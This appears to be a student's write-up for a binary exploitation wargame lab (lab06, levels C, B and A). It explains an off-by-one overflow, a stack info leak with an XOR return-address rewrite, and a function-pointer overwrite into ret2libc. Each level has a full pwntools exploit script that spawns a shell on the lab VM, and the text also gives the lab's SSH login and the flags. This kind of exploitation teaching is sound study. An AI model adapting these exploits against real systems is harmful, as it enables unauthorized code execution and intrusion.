



## lab06

**Level C**
The first thing I do is check the compiled structure of `struct savestate`, since the address space is randomized, only the offset is useful. In one run, the stack layout is:
> in `set_tweet`: `save->tweet` at `0xbfbcdb88`, offset `0x0`
> in `set_tweet`: `save->msglen` at `0xbfbcdc3c`, offset `0xb4`
> in `set_username`: `save->username` at `0xbfbcdc14`, offset `0x8c`

So the `msglen` is immediately next to the `username` since `0xb4-0x8c=40 == strlen(username)`. A vulnerability is in `set_username`, while the length of `username` is 40 bytes, this function wrongly accepts 41 bytes into it, hence give us the chance to modify `msglen`.
```cpp
/* Read and copy the username to our savestate */
fgets(readbuf, 128, stdin);
for(i = 0; i <= 40 && readbuf[i]; i++)
    save->username[i] = readbuf[i];
```

Since canary is not set, if we change `msglen` to 255, the runtime stack of `handle_tweet` can be overflow, since the local variable `save` is only 184 (140+40+4) bytes long. And I found the overflow length is 196.
```cpp
/* read a tweet from the user, safely copy it to struct */
fgets(readbuf, 1024, stdin);
strncpy(save->tweet, readbuf, save->msglen);
```

The last question is, where the eip should go? There is a function `secret_backdoor`, but its address is random. However, it can be brute forced.


Only the mediate two bytes are randomized, so any guess may success with probability 1/256.

```python
from pwn import *

def get_p():
    #p = process('./lab6C')
    shell = ssh(host='192.168.37.128', user='lab6C', password='lab06start')
    p = shell.process('/levels/lab06/lab6C')
    return p
def loop(guess_addr):
    p = get_p()
    p.recvuntil('username\n')
    un = 'Q' * 40 + '\xff'
    p.sendline(un)
    p.recvuntil('Dude\n')
    pw = 'Q' * 196 + p32(guess_addr)
    p.sendline(pw)
    p.recvuntil('sent!\n')
    try:
		p.sendline('/bin/sh')
		p.sendline('whoami')
        print p.recvline()
        p.interactive('cirq # ')
    except EOFError:
        del p

def main():
    base_addr = 0xb775372b
    for i in range(256):
        print 'try for', (i+1), 'times'
        loop(base_addr)
main()
```


The flag is `p4rti4l_0verwr1tes_r_3nuff`.

---

**Level B**
(Here I reference the solution on [github](https://github.com/evilgroot/mbe-solutions/blob/master/lab06/lab6B.py))

Since we are only able to input in `login_prompt` function, here is where the vulnerability exists. According to the mentioned solution, since `username` and `password` are next to each other, if we full-fill these buffers and there are no *NULL* bytes between them and the return address, these information can be leaked.

Once we leak the return address, we can control the EIP to the `login` function. However, there are always a *NULL* byte follows the `password` buffer so that I cannot leak stack data on my local machine. Lucky, The virtual machine does not issue such problem.


0 - 31 is for `username`, 32 - 63 is for `password`, and there are always an *NULL* on 72 on my local host.

Once we leak the information, we can use similar trick to modify the return address, here needs some mathematical inference:

> Assume that we firstly input $Q*32$ and $q*32$ as username and password, after `hash_pass` process, the `password` is changed to $Q\ \hat{}\ q$, denote the original return addr as $oriaddr$, after hash, it is changed to:
> $nowaddr = oriaddr\ \hat{}\ Q\ \hat{}\ q$
> On second turn, assume that we want to control the flow to $retaddr$, and we will input $iusername$ and $ipassword$, using the following construction:
> $iusernmae = oriaddr$
> $ipassword = retaddr\ \hat{}\ Q\ \hat{}\ q$
> then:
> $finaddr = nowaddr\ \hat{}\ iusername\ \hat{}\ ipassword = retaddr$

Lucky, double negation rule guarantees that the loop counting variable `attempts` be recovered after we inject the same payload in corresponding location.

```python
from pwn import *

def get_ro(stack):
    xor_ebp = stack[-4:]
    ebp = ''
    for c in xor_ebp:
        cord = ord(c) ^ 0x20
        ebp += chr(cord)
    return u32(ebp) - (0xf7e - 0xe81), u32(ebp)
def gen_up(ret, ori):
    iun = p32(ori)
    ipw = p32(ret ^ 0x20202020)
    gun = 'Q' * 20 + iun + 'Q' * 8
    gpw = 'q' * 20 + ipw + 'q' * 8
    return gun, gpw

p = remote('192.168.37.128', 6642)
#p = process('./lab6B')
#gdb.attach(p, gdbscript='b hash_pass\nc\n')

# first turn
un, pw = 'Q' * 32, 'q' * 32
p.recvuntil('username: ')
p.sendline(un)
p.recvuntil('password: ')
p.sendline(pw)
p.recvuntil('user ')
unstr = p.recv(88)
print unstr.encode('hex')
ret, ori = get_ro(unstr)
print hex(ret), hex(ori)

# second turn
un, pw = gen_up(ret, ori)
p.recvuntil('username: ')
p.sendline(un)
p.recvuntil('password: ')
p.sendline(pw)
p.recvuntil('user ')
unstr = p.recv(88)
print unstr.encode('hex')
ret, ori = get_ro(unstr)
print hex(ret), hex(ori)

# third turn
p.sendline()
p.sendline()
p.recvuntil('user \n\n')

p.interactive()
```



The flag is `strncpy_1s_n0t_s0_s4f3_l0l`.

---

**Level A**
There are some unused functions in the source, but the function pointer `merchant.sfunc` can be overwriten and call these functions. Particularly, since the canary is disabled, `make_note` is obviously used to buffer overflow attack.

In `setup_account`, the `temp` buffer is wrongly copied to `user->desc` and `user->sfunc` can be overwrite by crafted payload. To print the stack, we should control the function pointer to `print_name`. Here 1 hexadecimal digit should be guessed, and will success with probability 1/16.


The picture shows a runtime stack for `merchant`, the offset till 31 is for `name`, 32 - 159 is for `desc`, the next 4 bytes are for `sfunc`. Offset in 176 - 179 is somewhere on the code segment, I don't care what it is, but I can be used to calculate the real address of `system` function and `"/bin/sh"` string (in libc). If there are no *NULL* bytes after `desc`, `print_name` will leak these information.

My attack is:

+ full fill the buffer (guessing address of `print_name`) and leak the content of `sfunc`
+ fill the following bytes after `sfunc` to leak the address of code segment
+ set `sfunc` point to `make_note`, overflow it

```python
from pwn import *

print_name_offset = 0x8be2
make_note_offset = 0x89af

def exploit(p):
    un = p.recv(164)
    print_name_addr = u32(un[-4:])
    make_note_addr = (print_name_addr & 0xffff0000) + make_note_offset

    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('name: ')
    name = 'Q' * 32
    p.send(name)
    p.recvuntil('description: ')
    desc = 'q' * 2
    p.send(desc)

    p.sendline('3')
    p.recvuntil('Username: ')
    un = p.recv(180)
    some_main_base_addr = u32(un[-4:])
    print 'some main base', hex(some_main_base_addr)

    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('name: ')
    name = 'cirq\x00'
    p.send(name)
    p.recvuntil('description: ')
    desc = 'x' * (128 - 4 - 6) + p32(make_note_addr)
    p.send(desc)

    sysaddr = some_main_base_addr + (0x636190 - 0x60fa83)
    shaddr = some_main_base_addr + (0x756a24 - 0x60fa83)

    p.sendline('3')
    payload = 'c' * 52 + p32(sysaddr) + p32(0xdeadbeef) + p32(shaddr)
    p.sendline(payload)

def attempt(p):
    p.recvuntil('Choice: ')
    p.sendline('1')
    p.recvuntil('name: ')
    name = 'Q' * 32
    p.send(name)
    p.recvuntil('description: ')
    desc = 'q' * (128 - 32 - 6) + p16(print_name_offset)
    p.send(desc)
    p.sendline('3')
    line = p.recvuntil('Username: ', timeout=1)
    if not line:
        raise EOFError
    exploit(p)

while True:
    p = process('./lab6A')
    try:
        attempt(p)
        p.interactive('cirq # ')
        break
    except EOFError:
        print 'got eof error'
        p.shutdown()
```


Flag is `eye_gu3ss_0n_@ll_mah_h0m3w3rk`.
